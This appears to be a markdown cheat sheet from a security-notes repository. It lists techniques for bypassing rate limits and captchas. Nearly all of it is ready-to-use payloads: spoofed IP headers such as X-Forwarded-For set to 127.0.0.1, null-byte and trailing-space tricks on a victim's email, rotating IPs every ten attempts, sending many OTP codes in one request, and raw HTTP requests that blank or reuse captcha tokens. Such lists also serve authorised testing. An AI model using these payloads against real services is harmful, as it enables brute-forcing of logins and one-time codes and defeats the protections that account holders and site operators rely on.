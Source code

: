 #  Rate Limit

## 1 HTTP Methods
    If the request goes on GET try to change it to POST, PUT, etc.,
    If you wanna bypass the rate-limit in API's try HEAD method.
    
    
## 2 Add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Host : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1 
X-Custom-IP-Authorization: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1

```






## 3.Using Special Characters
  ```  
    Adding Null Byte ( %0d , %2e , %09 , %20 , %0, %00, %0d%0a, %0a, %0C) at the end of the Email email=victim@gmail.com%00
    Try adding a Space Character after a Email. ( Not Encoded ) {"email":"victim@gmail.com "}
    Adding a slash(/) at the end of api endpoint can also Bypass Rate Limit. domain.com/v1/login -> domain.com/v1/login/

```


## 4. Using IP Rotate Burp Extension

    Try changing the user-agent, the cookies... anything that could be able to identify you
    If they are limiting to 10 tries per IP, every 10 tries change the IP inside the header.
    
    
## 5 Multiple values in request

    When brute-force, try passing several values in one request at once, for instance:
    phone=+17342239011&code[]=123456&code[]=654321&...&code[]=331337
    
    
------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Captcha
## Changing the request method, 

## Custom header 
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
## Remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=&_Username=daffa&_Password=test123
```

## Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

## Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]
{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

    
    
    
    
    
    


